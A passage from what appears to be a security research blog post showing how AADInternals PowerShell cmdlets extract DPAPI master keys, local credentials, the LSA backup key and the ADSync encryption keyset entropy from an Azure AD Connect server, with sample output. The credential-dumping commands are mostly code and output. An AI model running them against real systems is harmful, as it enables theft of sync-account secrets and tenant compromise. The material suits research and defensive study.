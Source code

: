 {{< highlight powershell >}}
# Get user's master key
$mks = Get-AADIntUserMasterkeys -UserName AAD_2980bcb19aa3 -Password 'a5bTiGcvC8fr=E;MQ331IOt/&RP,!m:qjiRXaS;xr4V#6t74;&7mXWoOoz"57K/kKTz#xdBBqb.GDKly' -SID "S-1-5-21-xx-xx-xx-xx"

# Dump user's secrets
Get-AADIntLocalUserCredentials -UserName AAD_2980bcb19aa3 -MasterKeys $mks
{{< /highlight>}}
```
Target        : LegacyGeneric:target=Microsoft_AzureADConnect_KeySet_{6F529078-33BD-448F-A9AF-20D28B1E55DC}_100000
Persistance   : local_machine
Edited        : 24/04/2020 13.03.18
Alias         : 
Comment       : 
UserName      : ADSync
Secret        : {1, 0, 0, 0...}
SecretTxt     :  賐�ᔁᇑ窌쀀쉏 鈿鄅俿鮍遤  MMS_ENCRYPTION_KEYSET_{6F529078-33BD-448F-A9AF-20D28B1E55DC}_100000 昃 À  Ｅ䖀ﶽ఍�峘ᓗ  耄 
SecretTxtUtf8 :    Ќ����z �O�   ?��L��O��d�|���   �   M M S _ E N C R Y P T I O N _ K E Y S E T _ { 6 F 5 2 9 0 7 8 - 3 3 B D - 4 4 8 F - A 9 A F - 2 0 D 2 8 B 1 E 5 5 
Attributes    : {}
```
From the output we can see that we've found the encryption keyset! 

## Decrypting ADSync encoding keyset
The closer look to the binary secret reveals that it is also a DPAPI blob, encrypted with an unknown master key.
After searching, I was able to figure out that it was one of the system's master keys! So, next, I needed a way to decrypt them:
{{< highlight powershell >}}
# Dump the LSA key
$rsa=Get-AADIntLSABackupKeys | where Name -eq RSA

# Get system master keys
Get-AADIntSystemMasterkeys -SystemKey $rsa.Key
{{< /highlight>}}
```
Name                           Value                                                                                                                                            
----                           -----                                                                                                                                            
9105923f-ef4c-4fff-8d9b-649... {203, 24, 3, 236...}
```
I already knew that the entropy needed for decrypting the key was located in ADSync configuration database.
{{< highlight powershell >}}
# Dump the key info
Get-AADIntSyncEncryptionKeyInfo
{{< /highlight>}}
```
Name                           Value 
----                           ----- 
InstanceId                     299b1d83-9dc6-479a-92f1-2357fc5abfed
Entropy                        a1c80460-6fe9-4c6f-bf31-d7a34c878dca
```
